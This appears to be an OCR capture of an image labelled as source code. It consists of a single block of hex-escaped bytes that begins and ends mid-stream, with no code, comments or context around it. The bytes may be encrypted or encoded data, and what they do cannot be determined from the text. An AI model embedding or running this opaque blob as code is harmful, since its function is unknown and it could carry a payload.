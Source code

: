 ```
xa9\x6a\x6e\x06\xa9\x8c\xf7\x40\xf1\x4f\x81\xf6\x03\xf1\x0d\xba\xc7\xec\x9e\x1c\xcb\xd1\xa4\xb4\x84\x15\x6e\x64\x55\xe1\x47\x36\x8e\xf4\x44\x23\x29\x24\x74\x69\x2f\xc8\xc4\xca\x6e\xde\xae\x47\xbd\x48\x42\x98\x11\xad\xb0\xc3\xe0\xf2\x92\xcc\x91\x50\x6e\x49\x12\x1c\xa2\x19\xc3\x10\xe9\x81\x96\x12\x30\xdb\xcd\xa7\xf2\x9a\x44\xa6\x7f\x98\xe2\xbc\x7e\x84\x85\x3a\xe9\x75\xfb\x16\x62\x6c\xce\xf2\x39\x16\x78\xfc\xbc\x86\x42\x3a\xce\x55\x41\xb1\xef\xd5\x93\xed\xf1\xb8\xd7\xaf\xc9\x81\xeb\x59\xdd\xfa\x8f\xee\x32\xce\xf4\x39\xe8\x10\x71\xbd\x04\xc6\x10\x82\x52\xeb\xb1\x49\x48\xf7\x4f\x14\x98\xd9\xf8\x23\x03\x23\xd2\x26\x66\xda\x24\x4d\xd3\x52\x95\x69\xd9\xca\xc8\xcb\x2d\xcb\x22\x74\xb7\x38\x8b\xc1\x2f\xc2\xf4\xc4\xf1\xc5\x72\x43\x19\x04\x3f\xbd\x34\x57\xed\x81\x88\xc7\xfe\x8f\x9a\xfc\xe7\x73\x17\x60\x02\x22\x25\x12\xb0\x5f\x37\xc7\x43\xbf\xd4\xd9\x29\xd6\x8c\x82\xdf\xed\x0b\x62\x70\xc3\x0a\x06\xb9\x3f\x02\x1f\x14\x1e\xc3\x62\x77\x9f\x45\xd0\x4e\xa2\x5b\x63\xcd\x38\xb6\xfd\xc5\x1f\xb5\x68\x61\x68\x46\xeb\x7d\xdb\x37\x57\xb3\x74\xf7\x87\x72\x32\xfb\x6c\x57\xe9\x7d\xe4\xe1\x26\xc5\xcf\x96\xdb\xe2\xe6\xff\x98\x50\x4e\x99\x98\x3e\x22\xd4\xdd\x26\xde\xff\xa8\x2e\x8c\x9d\xdd\xaf\x45\x5e\xbc\xfb\x1f\xa8\xfd\x23\xf7\x75\x07\xbe\xb7\x89\xd5\x15\xea\x80\x96\x3e\x95\x2c\x0e\xa2\x15\x1d\x69\x9d\x57\x2a\x69\xfc\x99\x26\xa6\xe6\xe7\xb3\xd4\x9a\x58\xda\xc5\x1a\x43\x6a\x7a\x0d\x8c\x85\x5c\xd8\x08\x2e\xf6\x97\x78\x25\xe7\x28\x93\x55\x0f\x04\xac\xa8\x94\x6b\xc7\xba\xfc\xf2\xad\x01\xaf\x9c\xc5\x16\x11\x77\xf7\x7a\x2a\xca\xb6\xe6\xce\x40\x1b\xc3\x14\xf4\xd3\xa7\xe6\xc7\xb4\x0f\x69\xb4\x6a\xa7\xc9\xf2\x4d\xba\x7b\x9a\x40\x7e\x7a\x75\xbb\xc7\x97\x84\x9c\x35\x8b\x22\x31\xc9\x4c\x4b\x30\xc8\xe3\x0d\x1a\x47\x85\xf5\x4b\x50\x05\x0d\x20\x29\x35\x31\x26\xd8\xf1\x24\xe8\x89\x56\xda\x20\x22\xac\x86\x46\x21\xa5\xce\x38\x28\x85\x1c\x5e\xa6\xbe\xc7\x0d\xc8\xbd\xa7\x85\xfe\x71\xb3\x87\xdc\x1b\xee\x26\xf7\xc3\xac\x51\x9a\x11\xe7\x27\x94\xc0\x0c\xe4\x97\xf4\x98\x1a\x2e\x77\xba\xb3\x51\xea\x9d\x19\x74\x50\x37\x9e\x93\xb5\xb2\x29\x31\xe6\x56\xf7\xe0\x7b\xed\xa5\x02\x5b\xeb\x44\x4b\x18\x9d\xf5\x36\x55\x92\x38\xf1\x95\x30\x30\xea\xae\xf4\xab\xfb\x7c\x1e\xf2\xdb\xd3\x1d\xaa\x73\xd9\x60\x7e\xf1\x68\x25\x63\x4c\xd6\x37\x66\x92\x84\xdb\xdc\xd7\x9a\x86\xc4\xb7\xa3\xd8\x36\x9b\xfb\xea\x55\xa8\x8b\xd7\x7a\x98\x9c\xdf\x6f\xe3\x9f\x6c\x3c\xc0\x19\xae\x58\xe0\xe8\x82\xae\xc3\xc2\xf1\xa8\xc1\x66\xef\x15\x49\x3e\x26\x09\x1c\x79\x69\xb4\xce\xfc\x42\xef\xf7\x3e\x